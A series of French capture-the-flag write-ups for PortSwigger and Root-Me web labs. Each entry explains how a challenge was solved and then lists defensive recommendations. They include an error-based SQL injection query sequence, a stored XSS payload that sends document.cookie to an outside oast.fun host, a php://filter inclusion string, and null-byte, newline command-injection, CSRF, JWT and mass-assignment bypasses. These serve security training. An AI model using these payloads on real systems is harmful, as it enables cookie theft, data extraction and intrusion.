## https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass



**Découverte de la vulnérabilité :**
En utilisant les "../" pour remonter dans l'arborescence des répertoires, j'ai pu accéder au fichier passwd. Cependant, le système de validation des extensions de fichiers empêche l'accès aux fichiers sans extension ou avec des extensions non autorisées. En ajoutant un caractère null (%00) à la fin du nom du fichier, j'ai pu contourner cette validation et accéder au fichier passwd.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Valider et nettoyer les entrées utilisateur pour éviter les séquences de traversée de répertoires.
2. Utiliser des listes blanches pour les extensions de fichiers autorisées
3. Éviter d'utiliser des caractères spéciaux comme le caractère null dans les noms de fichiers.


## https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters






**Découverte de la vulnérabilité :**
```?inc=php://filter/convert.base64-encode/resource=index.php```

En utilisant le wrapper PHP "php://filter", j'ai pu appliquer un filtre de conversion Base64 au fichier index.php. Cela m'a permis de lire le contenu du fichier encodé en Base64. Ce qui m'a redirigé vers ch12.php où j'ai répété le même processus pour obtenir l'info de "config.php" et ainsi de suite jusqu'à obtenir le flag.
**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Valider et nettoyer les entrées utilisateur pour éviter les inclusions de fichiers non autorisées.
2. Désactiver les wrappers PHP inutiles pour limiter les vecteurs d'attaque


## https://www.root-me.org/fr/Challenges/Web-Client/CSRF-contournement-de-jeton




**Découverte de la vulnérabilité :**
J'ai détourné le token CSRF admin grâce à une faille dans le formulaire de contact. En envoyant un message via le formulaire de contact, j'ai pu inclure un script malveillant qui a extrait le token CSRF de l'admin grâce à un XMLHttpRequest. Ensuite, j'ai utilisé ce token pour effectuer une requête CSRF qui a modifié l'adresse email de l'admin.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Valider et nettoyer les entrées utilisateur pour éviter les injections de scripts
2. Utiliser des en-têtes de sécurité tels que Content Security Policy (CSP)


## https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session




**Découverte de la vulnérabilité :**
Le jeton CSRF utilisé pour protéger contre les attaques CSRF n'est pas lié à la session utilisateur. Je l'ai découvert en essayant d'update l'email d'un utilisateur avec un autre jeton CSRF que le sien. Donc j'ai provoqué un exploit CSRF en utilisant un jeton valide mais appartenant à une autre session utilisateur.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Lier les jetons CSRF aux sessions utilisateur
2. Utiliser des jetons uniques pour chaque user.
3. Mettre en place des mécanismes de validation supplémentaires(vérification de l'origine de la requête...).


## https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present



**Découverte de la vulnérabilité :**
Le mécanisme de défense CSRF repose sur la validation de l'en-tête Referrer. J'ai découvert que si l'en-tête Referrer est absent, la validation échoue et la requête est acceptée. J'ai pu exploiter cette vulnérabilité en supprimant l'en-tête Referrer de ma requête. Puis j'ai passé un exploit CSRF avec succès en ajoutant la balise meta pour supprimer l'en-tête Referrer.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Ne pas se fier uniquement à l'en-tête Referrer pour la validation CSRF
2. Utiliser des jetons CSRF uniques et liés aux sessions utilisateur


## https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Jeton-revoque




**Découverte de la vulnérabilité :**
J'ai découvert que le jeton JWT était blacklisté mais le système ne vérifiait pas la signature du jeton avant son expiration. J'ai pu modifier le payload du jeton pour bypass sans avoir besoin de la clé secrète grâce à l'encodage Base64. J'ai rajouté un "=" à la fin du token pour qu'il soit valide en base64 sans changer la signature.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Toujours vérifier la signature des jetons JWT avant de les accepter
2. Vérifier l'emétteur et l'audience du jeton pour s'assurer qu'ils correspondent aux valeurs attendues
3. Eviter de stocker des informations sensibles dans le payload du jeton JWT.

## https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Error





**Découverte de la vulnérabilité :**
```?action=contents&order=ASC,+CAST((SELECT+table_name+FROM+information_schema.tables+LIMIT+1)+AS+FLOAT)```

--> Nom de la table = m3mbr35t4bl3
```?action=contents&order=ASC,+CAST((SELECT+column_name+FROM+information_schema.columns+LIMIT+1)+AS+FLOAT)```

--> Nom de la colonne = id
```?action=contents&order=ASC,+CAST((SELECT+column_name+FROM+information_schema.columns+LIMIT+1)+AS+FLOAT)```

--> Nom de la colonne = us3rn4m3_c0l
```?action=contents&order=ASC,+CAST((SELECT+column_name+FROM+information_schema.columns+LIMIT+1+OFFSET+1)+AS+FLOAT)```

--> Nom de la colonne = p455w0rd_c0l
```?action=contents&order=ASC,+CAST((SELECT+us3rn4m3_c0l+FROM+m3mbr35t4bl3+LIMIT+1)+AS+FLOAT)```

--> Username trouvé = admin
```?action=contents&order=ASC,+CAST((SELECT+p455w0rd_c0l+FROM+m3mbr35t4bl3+LIMIT+1)+AS+FLOAT)```

--> Flag trouvé

Pour exploiter cette vulnérabilité, j'ai utilisé des injections SQL basées sur les erreurs pour extraire des informations de la base de données. En injectant des commandes SQL dans le paramètre "order", j'ai pu provoquer des erreurs qui révélaient des informations sur la structure de la base de données, y compris les noms des tables et des colonnes, ainsi que les données elles-mêmes.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Utiliser des requêtes préparées ou des ORM pour interagir avec la base de données
2. Valider et nettoyer les entrées utilisateur pour éviter les injections SQL

## https://www.root-me.org/fr/Challenges/Web-Serveur/Injection-de-commande-Contournement-de-filtre




**Découverte de la vulnérabilité :**
J'ai réussi à contourner le filtre mis en place en utilisant un newLine encodé *(%0a)*, ce qui m'a permis d'injecter des commandes supplémentaires dans la requête. En utilisant cette technique, j'ai pu exécuter une commande *curl* pour récupérer le contenu du fichier index.php. Grâce à cette méthode, j'ai pu lire le fichier .passwd et trouver le flag.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Valider et nettoyer les entrées utilisateur pour éviter les injections de commandes
2. Utiliser des listes blanches pour les commandes autorisées
3. Mettre en place des mécanismes de sécurité supplémentaires, tels que l'utilisation de comptes à privilèges limités pour l'exécution des commandes.

## https://www.root-me.org/fr/Challenges/Web-Client/XSS-Stockee-2


**Découverte de la vulnérabilité :**
J'ai pu exploiter une vulnérabilité XSS stockée en modifiant la valeur du cookie d'invite. La charge que j'ai utilisée est la suivante :
```"><script>document.location.href="http://qnxtlnpijcfertougdhia8uv6ffxgn5lu.oast.fun?c="+document.cookie</script>"``` 

afin de récupérer les cookies de l'admin grâce à un request catcher.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Valider et nettoyer les entrées utilisateur pour éviter les injections de scripts
2. Utiliser des en-têtes de sécurité tels que Content Security Policy (CSP) pour restreindre l'exécution de scripts non autorisés.

## https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit





**Découverte de la vulnérabilité :**
J'ai découvert qu'au chargement d'un item on avait une requête message qui partait à chaque fois. En jouant avec, j'ai pu provoquer une erreur qui m'a donné un indice sur un package "Handlebars". En utilisant la ressource donné par Portswagger, j'ai pu exécuter du code que j'ai encodé pour le passer dans l'url.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Valider et nettoyer les entrées utilisateur pour éviter les injections de template
2. Utiliser des mécanismes de sécurité intégrés au moteur de template pour restreindre l'accès aux fonctionnalités sensibles


## https://www.root-me.org/fr/Challenges/Web-Serveur/API-Mass-Assignment




**Découverte de la vulnérabilité :**
J'ai réussi à exploiter une vulnérabilité de contrôle d'accès dans l'API. J'ai envoyé une requête PUT à l'endpoint /api/user en modifiant le champ "status" de mon profil, le faisant passer de "guest" à "admin". Le serveur n'a pas vérifié mon autorisation pour cette modification et a accepté la mise à jour de mon rôle. Avec mes nouveaux privilèges d'administrateur, j'ai pu ensuite envoyer une requête GET à l'endpoint restreint /api/flag, ce qui m'a immédiatement donné le flag d'accès administrateur.

**Recommendations de sécurité :**
Pour prévenir ce type de vulnérabilité, il est recommandé de :
1. Mettre en place des contrôles d'accès stricts au niveau de l'API
2. Valider les modifications de données sensibles pour s'assurer que l'utilisateur a les autorisations appropriées avant d'accepter les mises à jour.